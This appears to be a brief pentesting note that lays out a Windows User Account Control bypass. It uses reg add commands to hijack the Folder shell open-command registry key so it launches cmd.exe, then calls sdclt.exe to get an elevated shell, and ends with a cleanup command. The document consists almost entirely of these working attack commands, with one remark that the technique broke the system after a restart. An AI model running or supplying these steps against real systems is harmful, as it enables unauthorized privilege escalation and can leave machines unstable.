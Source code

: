 ### Create the Registry
```Powershell

reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe" /f
reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f

```
### Call sdclt.exe
```powershell

%windir%\system32\sdclt.exe

```
### Cleanup
```Powershell

reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f

```


### Notes
- Broke system after restart ![](Attachments/Pasted%20image%2020240624105411.png)